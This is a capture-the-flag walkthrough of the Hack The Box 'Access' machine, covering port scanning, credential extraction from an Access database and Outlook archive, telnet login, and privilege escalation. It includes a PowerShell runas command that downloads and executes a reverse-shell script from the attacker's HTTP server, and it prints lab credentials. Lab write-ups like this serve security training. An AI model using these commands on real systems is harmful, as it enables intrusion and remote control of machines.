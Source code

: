 # [Access](https://app.hackthebox.com/machines/access)

```bash
nmap -p- --min-rate 10000 10.10.10.98 -Pn 
```

![Alt text](img/image.png)


After knowing open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p21,23,80 10.10.10.98
```

![Alt text](img/image-3.png)

Let's enumerate FTP via `anonymous` access.

![Alt text](img/image-1.png)

I got `backup.mdb` file from 'Backups' directory however writing `bin` command to get big size file which is file belongs to 'Access'.

![Alt text](img/image-2.png)


I use `mdbtools` commands set to enumerate this Access file `.mdb` file.

```bash
mdb-tables backup.mdb
```

![Alt text](img/image-4.png)


From here, I export table called **'auth_user'** via `mdb-export` command.
```bash
mdb-export backup.mdb auth_user
```

![Alt text](img/image-5.png)

engineer:access4u@security


I also found a file from Engineer folder on FTP service called 'Access Control.zip'

While extracting this file content, it asks a password from us, I type password which I found from Access file.
```bash
7x x Access Control.zip
```

![Alt text](img/image-6.png)


There is `.pst` file which belongs to 'Microsoft Outlook'.

![Alt text](img/image-7.png)


To read this folder, first we need to `readpst` commmand then, there is `.mbox` file and we need to read this via `mutt` command.

```bash
readpst Access\ Control.pst
mutt -Rf Access\ Control.mbox
```

![Alt text](img/image-8.png)


Let's `telnet` into machine via below credentials.

security: 4Cc3ssC0ntr0ller

![Alt text](img/image-9.png)


We can read user.txt also.

![Alt text](img/image-10.png)


I just looked my stored credentials via `cmdkey /list` command and see 'Administrator' password is enabled and can be used via `runas` binary.

![Alt text](img/image-11.png)


Now, it's time for reverse shell.

1.First, we need to write our reverse shell powershell script(Invoke-PowerShellTcp).

![Alt text](img/image-12.png)


2.Then open http.server to serve this.
```bash
python3 -m http.server --bind 10.10.16.6 8080
```
![Alt text](img/image-14.png)

3.Then write `runas` command to get our malicious script.
```bash
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.16.6:8080/Invoke-PowerShellTcp.ps1')"
```

![Alt text](img/image-13.png)

Hola, I got reverse shell from port (1337).

![Alt text](img/image-15.png)


root.txt

![Alt text](img/image-16.png)